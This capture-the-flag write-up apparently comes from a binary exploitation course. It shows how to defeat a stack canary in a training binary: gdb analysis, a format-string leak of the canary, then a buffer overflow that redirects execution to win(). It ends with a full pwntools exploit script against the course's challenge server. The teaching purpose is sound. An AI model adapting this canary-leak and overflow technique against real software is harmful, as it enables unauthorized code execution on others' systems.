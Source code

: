 ```yaml
---
description: Leaking a stack canary to allow for buffer overflows.
---
```


# canary

{% file src="../../.gitbook/assets/canary.zip" %}

This problem is the first instance where the stack protector, called the **canary** is enabled. We need to figure out how to beat that canary to perform a buffer overflow.

When we run `checksec` on the binary, we notice that the canary is enabled.

```bash
[*] '/home/joybuzzer/Documents/vunrotc/public/binex/04-canaries/canary/src/canary'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

PIE is still disabled, meaning we can still use the same techniques we used in the previous binary. However, we can't use the same techniques to overflow the stack. Let's see what happens when we try to overflow the stack.

```bash
$ python -c "print('A'*1000)" | ./canary
Hello, what is your name?
...
How can I help you today?
*** stack smashing detected ***: terminated
zsh: done                           python3 -c "print('A' * 1000)" | 
zsh: IOT instruction (core dumped)  ./canary
```

A **stack smashing detected** statement in the output indicates that we overwrote the canary. We need to determine how to beat the canary, and then we will proceed as usual.

### Static Analysis

It seems that our primary functions are `main`, `read_in`, and `win`.

* `win` seems only to print the contents of the flag.
* `main` immediately calls `read_in`, then has a `puts` statement. We can use `gdb` to show that reads "You lose!".

`read_in` does a list of things, so let's break it down further. Checking the arguments as we scroll through `gdb`:

*   `puts("Hello, what is your name?")`

    ```as
    puts@plt (
      [sp + 0x0] = 0x0804a008 → "Hello, what is your name?"
    )
    ```
*   `gets(ebp-0x4c)`

    ```as
    gets@plt (
     [sp + 0x0] = 0xffffd54c → 0xf7fc66d0 → 0x0000000e
    )
    ```
*   `printf(ebp-0x4c)`

    ```as
    printf@plt (
     [sp + 0x0] = 0xffffd54c → 0xf7006968 ("hi"?)
    )
    ```
*   `puts("How can I help you today?")`

    ```as
    puts@plt (
     [sp + 0x0] = 0x0804a023 → "How can I help you today?"
    )
    ```
*   `gets(ebp-0x4c)`

    ```as
    gets@plt (
     [sp + 0x0] = 0xffffd54c → 0xf7006968 ("hi"?)
    )
    ```

After this last check, we see that the canary check is made:

```as
0x08049283 <+189>:	mov    eax,DWORD PTR [ebp-0xc]
0x08049286 <+192>:	sub    eax,DWORD PTR gs:0x14
0x0804928d <+199>:	je     0x8049294 <read_in+206>
0x0804928f <+201>:	call   0x8049310 <__stack_chk_fail_local>
```

From this, we gather a few things:

* We write to the same buffer both times that we write to memory.
* The format string vulnerability in the first read means we can leak the canary.
* The existence of a second read means we can pass in a second payload that uses the canary to pass the check, then performs a buffer overflow.
* The canary is stored at `ebp-0xc`.

### Payload Part 1: Leaking the Canary

We know the canary is stored on the stack at `ebp-0xc`. We will use a format string to leak the canary to standard output and then pass that canary to the second payload.

There are two ways to find the offset on the stack that the canary is stored at:

1. Use `gdb` to set a breakpoint before the `gets` call, then count the number of DWORD frames between the stack pointer and canary.
2. Check the location of the stack pointer at the start of the `read_in` function, account for the number of operations on the stack pointer, then count the number of DWORD frames between the stack pointer and canary.

The first one is by far easier and more practical.

```as
gef➤  canary
[+] The canary of process 44910 is at 0xffffd80b, value is 0x8fdba200
gef➤  x/40wx $esp
0xffffd530:	0xffffd54c	0x00000001	0xf7ffda40	0x080491d2
0xffffd540:	0xf7fc4540	0xffffffff	0x08048034	0xf7fc66d0
0xffffd550:	0xf7ffd608	0x00000020	0x00000000	0xffffd750
0xffffd560:	0x00000000	0x00000000	0x01000000	0x0000000b
0xffffd570:	0xf7fc4540	0x00000000	0xf7c184be	0xf7e2a054
0xffffd580:	0xf7fbe4a0	0xf7fd6f80	0xf7c184be	0x8fdba200
0xffffd590:	0xffffd5d0	0x0804c000	0xffffd5a8	0x080492b8
0xffffd5a0:	0xffffd5c0	0xf7e2a000	0xf7ffd020	0xf7c21519
0xffffd5b0:	0xffffd82e	0x00000070	0xf7ffd000	0xf7c21519
0xffffd5c0:	0x00000001	0xffffd674	0xffffd67c	0xffffd5e0
```

`gdb` tells us that the canary is at `0xffffd80b`. If we count from our location to the canary, we see that it is 23 DWORDs away. We can verify this using the format string:

```bash
$ ./canary
Hello, what is your name?
%23$x
6de5f500
```

This appears to work! Let's turn this into a `pwntools` script:

```python
p.recvline()
p.sendline(b'%23$x')
canary = int(p.recvline().strip(), 16)
```

### Payload Part 2: Overflowing the Buffer

Now that we have the canary, we can overflow the buffer. We need to do this in two steps:

1. Write data until we reach the canary, then write the canary to the stack (so it doesn't get modified).
2. Write data from the canary to the return pointer, then overwrite the return pointer with the address of `win()`.

We discussed earlier that the canary is stored at `ebp-0xc`. Based on the argument passed to `gets()`, we start writing at `ebp-0x4c`. This means we need to write `0x40=64` bytes of data before reaching the canary.

Our payload here could look like this:

```python
payload = b'A' * 0x40
payload += p32(canary)
```

Then, we need to write from the canary to the return pointer. The canary sits at `ebp-0xc`, and the return pointer always sits at `ebp+0x4` (because the base pointer is at `ebp+0x0`). Remember that the canary takes four bytes itself, meaning we start to write at `ebp-0x8`. This means we need to write `0xc` bytes of data to reach the return pointer.

Our payload here could look like this:

```python
payload += b'B' * 0xc
payload += p32(win)
```

{% hint style="warning" %}
#### _Why did I use "B" this time?_

I can use any value to fill the empty space. I choose to use a different value for debugging purposes. In the case that my payload is wrong, it's easier to tell if I overfilled or underfilled the buffer by using two different values.
{% endhint %}

From here, we put it all together into one large payload and send it off!

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

proc = remote('vunrotc.cole-ellis.com', 4100)

# leak the canary
payload = b'%23$p'
print(proc.recvline())
proc.sendline(payload)

# get output to store the canary
leak = proc.recvline().strip()
leak = int(leak.decode(), 16)
print(proc.recvline())

print("Canary Leaked:", hex(leak))

# build the payload with the canary
payload = b'A' * 0x40
payload += p32(leak)
payload += b'A' * 0xc
payload += p32(0x080492d9)

proc.sendline(payload)
proc.interactive()
```
{% endcode %}

Running this gets us our flag.
